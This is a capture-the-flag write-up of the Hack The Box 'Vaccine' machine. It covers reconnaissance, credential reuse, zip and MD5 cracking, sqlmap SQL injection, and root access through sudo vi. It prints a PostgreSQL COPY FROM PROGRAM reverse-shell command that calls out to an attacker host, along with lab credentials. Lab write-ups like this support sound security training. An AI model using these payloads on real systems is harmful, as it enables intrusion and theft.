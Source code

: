 Vaccine

# Vaccine Box

This is a linux box CTF on hack the box. It runs a website with a db back end.

This box was quite annoying because HTB targets are shared, multiple people are trying to hack it at once. This leads to other users deleting databases and also removing anything that I did, such as trying to inject a reverse shell. So I had to try at a few different times, sometimes rushing to avoid having what I did undone by another user dropping tables or trying the same attack as I was. 

Tools I used are:

- Kali Linux
- SQLMAP
- Netcat
- NMap
- FTP

## Let's begin

I'll start off with an Nmap scan using sV and sC flags.

![ca9f4c71647696cf9e3bc697ecfe9606.png](images/c5d54a90b9274e16a81a8e9cc9eeba00.png)

Looks like we have few services open we can look into: FTP, SSH, HTTP

A quick search in searchsploit re the FTP server shows our only exploit is a DoS which is not helpful for the challenge.

![63db284efd7c00b19ece3f3895c20012.png](images/e5db358b77c44beb98a5f292fce1442d.png)

SSH accepts password login and public key.

![44221525defbc8a2e179558f5f7fe747.png](images/ff3a70b62a9b427489a09760a2ff48f9.png)

We have a MegaCorp login page on port 80.

![837c04721ca366d886de867b75aafb1e.png](images/99280b627a0743de952d12ed6de906ec.png)

Learning from the previous challenge, I'll try the admin credentials we got from Archetype that also worked in the Oopsie CTF, to see if it works on this challenge too. Not luck this time.

Next I'll try dirbuster and see if we can find any interesting folders or files.

![b18420e6906968e08f96a760ac4dc729.png](images/5ba49a0960484c3cb21c71c3c34f099d.png)

After not finding much interesting I hit the forum and it advised that there is a credential in the last challenge that helps with this challenge. I'll load up the Oopsie box again and go hunting.

Hunting around the Oopsie box let to a filezilla configuration file in the /root/.config folder

![22194124f2c948eeaec472464a94903c.png](images/bb6f55e293954765a1275f0d32b3f2a9.png)

here are the creds, we can see this is for IP 10.10.10.46, which is our current target.

ftpuser / mc@F1l3ZilL4

No we're in to the FTP folder with those credentials.

![c421fd7a486b9f2c481ec22bcf481ff6.png](images/bb99e78659a547cb9e17b44c0a92981a.png)

In that folder we can see one file called 'backup.zip'.

I'll grab it and see what's inside.

It looks like that file is password protected.

![28e445b9bb25fe533a19c8a4f44b0ffe.png](images/78d8bc1b1a3b45ceaaa9dbc546620645.png)

I'll try some of the passwords we have from this challenge and the previous challenges.

John was able to crack the password quite easily, I used this guide:

https://linuxconfig.org/how-to-crack-zip-password-on-kali-linux

![a25640398b5c1057dc6d423a90872428.png](images/0f237f8181b549baa3839ce02ceb0879.png)

![642cf763869db963845b356105dbfc44.png](images/bb1585013f5f4bfebc25a810d65a9539.png) ![9e7a169232f149989a71e7aa9317545d.png](images/d229b7253577480db9aab64f0b9915cc.png)

backup.zip:741852963

After unzipping the file the username and md5 password hash is accessible in the index.php file.

![2c7bfd0d5c9ef50e69fd8ac6ab6cccde.png](images/9f066a77e28b4798a490e62771aecafd.png)

MD5 Hash is: 2cb42f8734ea607eefed3b70af13bbd3

Decrypting the hash gives me the following:

admin / qwerty789

Now we're in the web portal.

![90dda03080be6d2a90f1086d1bbed086.png](images/57b5b030a5264191a4457498914b9d66.png)

Time to look around.

There is a search feature on the top right. There appears to be an injection option here as I received an error when trying a simple sql injection attack:

![c12852e8926a61ca0c4d5fdb943ab082.png](images/5803fe22235e404d8cb03fa511a476cd.png)

I'll try to use sqlmap to see if this can get me some info.

I'll use ZAP to capture the cookie data.

Looks like we have a PostgreSQL db, with possible injection here.

![9d35c642aa2bb38057901c4a6b06cf5b.png](images/286d179f414a4c1f98a63bf325bd87d8.png)

And we got some info

![3fdfd1f49c0eaa4e8f2253b670a7b033.png](images/2341edf52efc44a28ad0609dc39b9fb4.png)

I'll try for a shell.

Note while I was attempting this it appears that the data in the db 'dissappeared' I'm assuming another player dropped the DB. I will come back later, as it happened twice to me within a 30min period.

Coming back after another day, the data was restored to the host so I continued with my testing.

Using SQLMAP I managed to get the database names with 'dbs' flag

![ec3dd5c3a5428f69b68e8dd7680b763c.png](images/339b40ec511549c0b1fc4fe34f022860.png)

I then took a look at the tables in the public DB:

![bd82c049ecd9ff3fc0b5d754867d14a7.png](images/52366a7beb934eafb1c9c0e053c20b12.png)

Then I could obtain the data in that table with the --dump sqlmap flag.

![0c1c13af88dc0a61b6563356ecc75b3b.png](images/ff178f5c62ad41cd884920dd87c0b909.png)

I tried a reverse shell, but that did not seem to work with sqlmap.

Next I'll try get the user name and password ofr the db with the --user and --password flag in sqlmap

![004d2f7b21349506f6c32a642e20f986.png](images/a63a1e1597bc42b5a17e1a052b3efe81.png)

Now I will try to brute force the password with the rockyou.txt password list.

![df06301ea9e3e431f2f468b577d4cf54.png](images/7ba0deda95fe4bf9884edcb753c03747.png)

Unfortunately this did not work, the password must not be in that list.

Since I cannot get an os shell using the sqlmap builtin feature, I'll attempt to get a sql shell.

This worked.

![f7cb0557af2bc926380c22b958bbc5fa.png](images/a7eb7952811147a3a4e6b2304cae7146.png)

Now I will attempt to manually get a reverse shell, this article provides some instructions on performing and testing command injection.

https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5 

I ended up runing the following SQL Injection commands to get a reverse shell

DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd\_exec(cmd\_output text);
COPY cmd_exec FROM PROGRAM 'bash -c "bash -i >& /dev/tcp/10.10.14.109/4444 0>&1"';

This finally led to a remote shell

![8177cf227345ac1b490c788617b91c86.png](images/45f8bbf39b8445bb9ed95abdc3b21cc8.png)

Since the site is user a DB, I will look through the code to see if the DB password is available.

![f9d9214f120a9fc0bc764a328f303940.png](images/4bee4dbb99f342b6a6b566267ce32a80.png)

We can see the DB password and user in the dashboard.php file

![002b28a0a45c4474faa7ac50aac3e5c3.png](images/9031eae6d4454d3f99e684bc35ec26e3.png)

postgres P@s5w0rd!

Note at this point I got kicked off, another user must have dropped my table or reset the box. So I had to redo the above attack again to re-obtain a shell.

Now that I'm back in, I'll upgrade from a simple shell with python3 -c 'import pty; pty.spawn("/bin/sh")'

![1d6232cad372d13381beeadd0ac75b36.png](images/2aca0bc7ca804d18b98c4fa1b9d1e87a.png)

The user seems to have sudo access using vi, this can be easily exploited since vi can run shell commands. 

![0adc6e11777949fd58880ab1c8f6fc2a.png](images/aa3973eb03654d4dbd372e2339d3d5e7.png)

So I will run the above command as sudo, launching vi as root, then launch a shell with the following command in vi :!/bin/bash

Now I have root access

![67f14913f3bb116fa979c0fba90bbe2a.png](images/e91a82718b1743419908373c2d9ef202.png)

Finally for the flag:

![31a9d283550392adf57d52cfcee1d0e3.png](images/93960f37ca164b389c8c28c24c2bc6b2.png)